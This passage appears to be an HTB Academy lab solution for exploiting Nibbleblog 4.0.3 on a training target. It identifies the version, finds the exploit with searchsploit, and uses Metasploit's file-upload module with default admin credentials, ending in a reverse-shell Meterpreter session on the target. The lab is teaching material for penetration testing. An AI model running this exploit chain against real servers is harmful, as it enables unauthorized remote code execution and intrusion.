 Remembering the found directories from `gobuster`, students can determine the version of the `nibbleblog` running on the spawned target machine by reading the `README` file, finding it to be `4.0.3`:

![[HTB Solutions/CPTS/z. images/4dce61aa39e9fff4bcf5e258a5865a43_MD5.jpg]]

Students now need to search for a public exploit for this specific version. One approach is by using `searchsploit`:

Code: shell

```shell
searchsploit "Nibbleblog 4.0.3"
```

```
┌─[eu-academy-2]─[10.10.15.88]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ searchsploit "Nibbleblog 4.0.3"

Exploit Title | Path
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit) | php/remote/38489.rb
Shellcodes: No Results
```

To exploit the arbitrary file upload vulnerability and gain remote code execution, students could either follow the manual method described in the module's section or use the `exploit/multi/http/nibbleblog_file_upload` exploit in `msfconsole`:

Code: shell

```shell
msfconsole -q
use exploit/multi/http/nibbleblog_file_upload
set LHOST PWNIP
set USERNAME admin
set PASSWORD nibbles
set RHOSTS STMIP
set TARGETURI /nibbleblog/
exploit
```

```
┌─[eu-academy-2]─[10.10.15.88]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ msfconsole -q

msf6 > use exploit/multi/http/nibbleblog_file_upload
msf6 exploit(multi/http/nibbleblog_file_upload) > set LHOST 10.10.15.88
LHOST => 10.10.15.88
msf6 exploit(multi/http/nibbleblog_file_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(multi/http/nibbleblog_file_upload) > set PASSWORD nibbles
PASSWORD => nibbles
msf6 exploit(multi/http/nibbleblog_file_upload) > set RHOSTS 10.129.211.176
RHOSTS => 10.129.211.176
msf6 exploit(multi/http/nibbleblog_file_upload) > set TARGETURI /nibbleblog/
TARGETURI => /nibbleblog/

msf6 exploit(multi/http/nibbleblog_file_upload) > exploit
[*] Started reverse TCP handler on 10.10.15.8:4444 
[*] Sending stage (39282 bytes) to 10.129.211.176
[+] Deleted image.php
[*] Meterpreter session 1 opened (10.10.15.8:4444 -> 10.129.211.176:48026) at 2022-02-28 12:01:48 +0000
meterpreter > shell
Process 16673 created.
Channel 0 created.
whoami

nibbler
```
